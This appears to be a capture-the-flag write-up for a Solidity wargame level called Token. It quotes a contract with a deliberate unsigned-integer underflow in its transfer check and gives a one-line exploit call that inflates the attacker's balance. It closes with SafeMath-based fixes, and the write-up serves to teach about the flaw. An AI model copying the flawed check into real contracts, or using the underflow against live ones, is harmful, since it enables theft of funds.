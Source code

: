 # Token 

## Challenge Statement

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

  Things that might help:

    What is an odometer?

## Analysis

odometer : an instrument for measuring the distance travelled by a wheeled vehicle.


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  // contract is set with 20 tokens
  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  // call transfer with own address + amount
  // looks like possible overflow?
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0); // sender must already have more than value or overflow
    balances[msg.sender] -= _value; // update values of sender by 'overflow' :)
    balances[_to] += _value; // update value of _to by value
    return true;
  }

  // check balance of the owner
  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

## Solution

Exploit the underflow here since the safemath library is not in use and compiler version before 0.8.x, just send a large amount, e.g:
```
await contract.transfer('<random_contract/wallet>', '100000000000000000000000');
```


## Moral

Overflows are very common in solidity and must be checked for with control statements such as:

if(a + c > a) {
  a = a + c;
}

An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

a = a.add(c);

If there is an overflow, the code will revert.
